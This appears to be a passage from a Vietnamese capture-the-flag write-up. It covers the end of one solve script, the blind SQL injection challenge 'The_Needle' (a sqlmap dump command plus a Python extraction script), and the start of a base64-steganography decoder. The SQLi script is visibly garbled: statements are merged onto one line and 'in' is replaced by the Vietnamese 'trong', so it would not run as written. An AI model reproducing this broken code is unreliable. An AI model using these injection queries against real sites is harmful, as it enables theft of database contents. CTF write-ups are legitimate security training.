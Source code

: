 ```python
    code_str += codes[i]

code_str = code_str.replace('L64', chr(124))
code_str = code_str.replace(chr(49) + chr(57) + chr(82), chr(39))
code_str = code_str.replace('nz0', chr(36))
print(code_str)
```
## The_Needle
>You are presented with a simple search tool, an interface to a vast and hidden archive of information. Your mission is to find a single, specific secret hidden within. The tool is your only guide, but it is notoriously cryptic. You'll need to use clever queries and careful observation to uncover the prize.

Đọc source code ta thấy trang web này đã dính lỗ hổng SQLi, cụ thể là ``` blind SQL injection``` ở tham số ```id```, Cách đơn giản nhất ta có thể sử dụng công cụ ```SQLmap``` hoặc viết một mã python đơn giản

```
sqlmap -u "https://the-needle.chall.wwctf.com/index.php?id=1" --batch --dump
```
```python
#!/usr/bin/env python3 
import requests 

base_url = "https://the-needle.chall.wwctf.com/?id=" 

for i in  range ( 1 , 50 ): 
    sql = "' or (select length(information) from info) = %d -- -" % i 
    url = base_url + sql 
    r = requests.get(url) if "Yes, We found it !!" in r.text:
         print ( "[+] Cờ có %d ký tự" % i) 
        flaglen = i break 
flag = '' for j in range ( 1 , flaglen + 1 ):
     for x in range ( 32 , 127 ): 
        sql = "' or substr((select information from info), %d, 1) = '%s' -- -" % (j, chr (x)) 
        url = base_url + sql 
        r = requests.get(url) if "Yes, We found it !!" trong r.text: 
            flag += chr (x)
             print ( "[+] flag is:" , flag)
             break print ( "[*] flag is:" , flag)
```


## Based_64
>My friend gynvael told me that base64 has some interesting properties...

Về cơ bản, trông giống như một ký tự đơn được mã hóa base64 , nhưng có một chút khác biệt. Theo nguyên tắc của base64 , đối với ký tự thứ hai của mã hóa base64 của một ký tự đơn, bốn bit cuối cùng của bảng base64 phải bằng 0. Tuy nhiên, điều này không đúng, vì vậy chúng tôi trích xuất phần đó và giải mã thành số nhị phân.

```python
#!/usr/bin/env python3
from string import *

chars = ascii_uppercase + ascii_lowercase + digits + '+/'

with open('based64.txt', 'r') as f:
    lines = f.read().splitlines()

bin_flag = ''
for line in lines:
    b0 = chars.index(line[0])
    b1 = chars.index(line[1])
```